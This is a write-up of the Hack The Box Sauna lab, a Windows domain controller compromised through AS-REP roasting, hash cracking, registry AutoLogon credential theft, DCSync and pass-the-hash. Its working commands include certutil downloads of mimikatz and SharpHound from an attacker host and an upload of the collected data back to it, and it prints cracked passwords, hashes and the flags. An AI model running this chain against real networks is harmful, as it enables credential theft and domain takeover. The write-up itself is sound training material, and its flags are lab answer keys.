




# HTB Sauna


## user.txt

Enumeration:

```bash
sudo nmap -sC -sV $ip -Pn --top-ports 10000
```

Results: 

```
Nmap scan report for $ip
Host is up (0.047s latency).
Scanned at 2025-01-11 14:22:46 EST for 103s
Not shown: 8354 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Egotistical Bank :: Home
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-12 02:16:57Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-01-12T02:17:01
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38495/tcp): CLEAN (Timeout)
|   Check 2 (port 60289/tcp): CLEAN (Timeout)
|   Check 3 (port 10224/udp): CLEAN (Timeout)
|   Check 4 (port 32278/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 6h53m12s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:24
Completed NSE at 14:24, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:24
Completed NSE at 14:24, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:24
Completed NSE at 14:24, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
```

Domain: EGOTISTICAL-BANK.LOCAL
Host: SAUNA

We have performed all the basic enumeration that we can do without a foothold in the domain. We attempted to enumerate users, password policies, shares with anonymous users and no success. 

As port 80 is open and there is a website in place, we attempted to enumerate subdomains, directories and files with no success. The only thing left to have a look a it was a list of members of the team at EGOTISTICAL-BANK.LOCAL. These were the names:

```
Fergus Smith
Hugo Bear
Steven Kerb
Shaun Coins
Bowie Taylor
Sophie Driver
```

Based on this list, ChatGPT provided us  with a combination of name and surname to test if there was any account that had the Do not require Kerberos pre-authentication setting enabled. This is a SNIP of the list provided by ChatGPT:

```bash
fsmith  
fergusmith  
fergus-smith  
fergus.smith  
fergus_smith  
f.smith  
smithf  
smith.fergus  
smith_fergus  
fergus  
smith  
fs  
f.s  
fergus-s  
fergus.s  
fergus_s  
smith.f  
smith-f  
smith_f  
fergus1  
smith1  
fergus.smith1  
fsmith1  
fergus2  
smith2  
fsmith2  
fergusmith123  
fergus-smith123  
fergus.smith123  
fsmith123  
smithf123  
ferguss  
smith.fergus123  
fsmiths  
smithfergus  
smith.fergus  
fsmith-smith  
fsmith.fergus  
hugobear  
[SNIP]
```

As It's possible to obtain the Ticket Granting Ticket (TGT) for any account that has the Do not require Kerberos pre-authentication setting enabled (ASREPRoasting attack) we used GetNPUSers.py. 

This vector involves attacking the AS-REP instead of the TGS-REP.

```bash
python3 GetNPUsers.py egotistical-bank.local/ -dc-ip $ip -no-pass -usersfile ~/users.txt | grep -v SessionError 
```

And bingo:

```bash
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:f4f7040cdd5d37bb6dc0621aebee0ada$6209c4f1a6feae8bc5485abbcae9d1e01e80610a933f30d841eebf8afca6e4faf72f8b9fc122c46ba203115f409e24fc423875d9607a79f63b9790d82bf3c0af114972c2646c145c3d4d851030fb20f5980eaf8cc3767a7cc15e801f02ee685bb6b2579ce0f0984c61dd470644224220e310e4641843c24ac958e6279e1a263d011a2be96bb1e0a38526590438266096cd970e48f44dc33ec230c911878a71491fc974b957a6750cec4ca28942f76124322a9f411561555726b407bac99ad411d1ecc0fef0addb430016029b40e97390824776a424e898d41813efec86e7e6d69d7fff389834b5f20800364a2f855da17f7b3750e20f86a46ca72cd47be055fb

```

Now we used hashcat to crack the hash offline:

```bash
 hashcat -m 18200 asp /usr/share/wordlists/rockyou.txt 
```

Result: Thestrokes23
User: fsmith

Now, Evil-WinRM to access the machine (for instance):

```bash
evil-winrm -i $ip -u fsmith -p 'Thestrokes23'
```

The flag is under the Desktop:

```bash
type C:\Users\FSmith\Desktop\user.txt
```

Solution: 3e7d6bdf06737f8a7c0864ac1afeff0d


## Root.txt

From our kali attacking machine we will serve some files:

```bash
python3 -m http.server 9001
```

We can download them from the Win-RM connection:

```bash
certutil.exe -urlcache -split -f "http://10.10.14.149:9001/SharpHound.exe" SharpHound.exe

certutil.exe -urlcache -split -f "http://10.10.14.149:9001/PSUpload.ps1" PSUpload.ps1
```

In the Win-RM connection to the host:

```bash
./SharpHound.exe -c All --zipfilename enum
```

Now from our kali we will have an [uploadserver](uploadserver.md):

```bash
python3 -m uploadserver
```

Next we upload the collector file generated with SharpHound from our Win-RM conneciton:

```powershell
Import-Module .\PSUpload.ps1
Invoke-FileUpload -Uri http://10.10.14.149:8000/upload -File C:\Users\FSmith\Documents\file_enum.zip
```

Now we can use bloodhound in our kali machine to browse the active directory:

```bash
# In one terminal we initiate the neo4j server
sudo neo4j console  

# In the other console we initiate bloodhound
bloodhound

# We upload the zip file
```

In BloodHound we notice several facts, like kerberoastable users.



Also that there is another user with remote access to the SAUNA host:



And that this user has interesting privileges on the domain:



Our user `FSmith` is quite limited in this sense. However, with our foothold in fsmith and our Win-RM connection we can do some basic enumeration and checks.  

One of them is a hit. Windows stores AutoLogon credentials in the registry, under a specific path. You can retrieve this information by querying the registry directly.

We can access the relevant registry keys for AutoLogon credentials using PowerShell via Evil-WinRM.

**1.**  **First way**: Use PowerShell to Read Registry Keys

- `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon`

```powershell
# Query AutoLogon settings from the registry
Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" | Select-Object DefaultDomainName, DefaultUserName, DefaultPassword
```

**2.** **Second way**: Check the Registry for AutoLogon Credentials directly:

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

Either way, we obtain:

```
user: svc_loanmgr
password: Moneymakestheworldgoround!
```

According to bloodhound the user SVC_LOANMGR@EGOTISTICAL-BANK.LOCAL has the DS-Replication-Get-Changes and the DS-Replication-Get-Changes-All privilege on the domain EGOTISTICAL-BANK.LOCAL. These two privileges allow a principal to perform a DCSync attack.



### Alternative  1

We may perform a dcsync attack to get the password hash of an arbitrary principal using mimikatz. So we access the host with this user:

```bash
evil-winrm -i $ip -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```

From our attacking machine, we serve the mimikatz.exe file:

```bash
python -m http.server 9001
```

From the Win-RM connection, we download it:

```powershell
certutil.exe -urlcache -split -f "http://10.10.14.149:9001/mimikatz.exe" mimikatz.exe
```

Next we  perform a dcsync attack to get the password hash of an arbitrary principal using mimikatz. 

```powershell
.\mimikatz.exe privilege::debug "lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:Administrator" exit
```

Results: 

```
[DC] 'EGOTISTICAL-BANK.LOCAL' will be the domain
[DC] 'SAUNA.EGOTISTICAL-BANK.LOCAL' will be the DC server
[DC] 'Administrator' will be the user account

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 7/26/2021 8:16:16 AM
Object Security ID   : S-1-5-21-2966785786-3096785034-1186376766-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 823452073d75b9d1cf70ebdf86c7f98e
    ntlm- 0: 823452073d75b9d1cf70ebdf86c7f98e
    ntlm- 1: d9485863c1e9e05851aa40cbb4ab9dff
    ntlm- 2: 7facdc498ed1680c4fd1448319a8c04f
    lm  - 0: 365ca60e4aba3e9a71d78a3912caf35c
    lm  - 1: 7af65ae5e7103761ae828523c7713031

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 716dbadeed0e537580d5f8fb28780d44

* Primary:Kerberos-Newer-Keys *
    Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
      aes128_hmac       (4096) : a9f3769c592a8a231c3c972c4050be4e
      des_cbc_md5       (4096) : fb8f321c64cea87f
    OldCredentials
      aes256_hmac       (4096) : 987e26bb845e57df4c7301753f6cb53fcf993e1af692d08fd07de74f041bf031
      aes128_hmac       (4096) : 145e4d0e4a6600b7ec0ece74997651d0
      des_cbc_md5       (4096) : 19d5f15d689b1ce5
    OlderCredentials
      aes256_hmac       (4096) : 9637f48fa06f6eea485d26cd297076c5507877df32e4a47497f360106b3c95ef
      aes128_hmac       (4096) : 52c02b864f61f427d6ed0b22639849df
      des_cbc_md5       (4096) : d9379d13f7c15d1c

* Primary:Kerberos *
    Default Salt : EGOTISTICAL-BANK.LOCALAdministrator
    Credentials
      des_cbc_md5       : fb8f321c64cea87f
    OldCredentials
      des_cbc_md5       : 19d5f15d689b1ce5

* Packages *
    NTLM-Strong-NTOWF
[SNIP]
```


### Alternative 2

An alternative and faster way for obtaining the Administrator hash would be:

```
python3 ./secretsdump.py egotistical-bank/svc_loanmgr@$ip -just-dc-user Administrator 
```


### ... Continuing

We can pass the hash and use a new Win-RM connection as Administrator:

```bash
evil-winrm -i $ip -u Administrator -H "823452073d75b9d1cf70ebdf86c7f98e"

impacket-psexec egotistical-bank.local/administrator@$ip -hashes aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e
```

Get the flag:

```powershell
type "C:\Users\Administrator\Desktop\root.txt"
```

Results: 3c26c7c91bdf9daad8af9914e7e36133
